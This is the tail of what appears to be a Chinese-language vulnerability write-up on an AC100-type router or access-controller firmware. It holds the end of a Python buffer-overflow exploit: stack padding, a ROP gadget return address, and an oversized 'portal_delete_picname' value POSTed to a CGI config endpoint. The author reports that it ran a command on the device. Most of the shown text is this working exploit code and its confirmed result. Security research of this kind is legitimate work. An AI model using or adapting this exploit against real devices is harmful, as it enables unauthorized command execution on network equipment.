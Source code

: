 ```py
	data0 += b'A' * 0x64								# stack padding

	#gadget 3
	data0 += (0x47C010).to_bytes(3, 'little')			# return
	
	data = b'{"portal_delete_picname":"' + data0 + b'"}'
	#data = b'{"portal_delete_picname":"1"}'
	print(requests.post("http://" + host + "/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file", data = data).text)

Vul4_AC100("192.168.20.101")

```

一运行，果然固件提示 `leeya_bug-hacked!`，成功运行 `echo leeya_bug-hacked!`

证明利用链构造成功

![/image/cfac100/3.png](/image/cfac100/15.png) 

本文章不遵循 CC 协议，除开特别说明标注，该文章未经许可禁止转载

# [](#header-3)rop链构造2

未更新

(完)